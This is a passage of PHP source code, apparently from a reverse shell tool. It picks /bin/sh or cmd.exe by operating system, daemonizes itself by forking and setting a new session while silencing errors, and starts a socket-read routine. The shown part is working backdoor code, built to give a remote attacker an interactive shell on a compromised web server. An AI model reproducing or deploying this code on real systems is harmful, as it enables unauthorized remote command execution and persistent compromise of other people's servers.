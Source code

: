 ```
        $this->a = $a;
        $this->p = $p;
        if (stripos(PHP_OS, 'LINUX') !== false)
        {
            $this->os = 'LINUX';
            $this->sh = '/bin/sh';
        }
        else if (stripos(PHP_OS, 'WIN32') !== false || stripos(PHP_OS, 'WINNT') !== false || stripos(PHP_OS, 'WINDOWS') !== false)
        {
            $this->os = 'WINDOWS';
            $this->sh = 'cmd.exe';
            $this->o['bypass_shell'] = true;
        }
        else
        {
            $this->e = true;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
    }
    private function dem()
    {
        $e = false;
        @error_reporting(0);
        @set_time_limit(0);
        if (!function_exists('pcntl_fork'))
        {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        }
        else if (($p = @pcntl_fork()) < 0)
        {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        }
        else if ($p > 0)
        {
            $e = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
        }
        else if (posix_setsid() < 0)
        {
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        }
        else
        {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        @umask(0);
        return $e;
    }
    private function d($d)
    {
        $d = str_replace('<', '<', $d);
        $d = str_replace('>', '>', $d);
        echo $d;
    }
    private function r($s, $n, $b)
    {
        if (($d = @fread($s, $b)) === false)
        {
            $this->e = true;
```
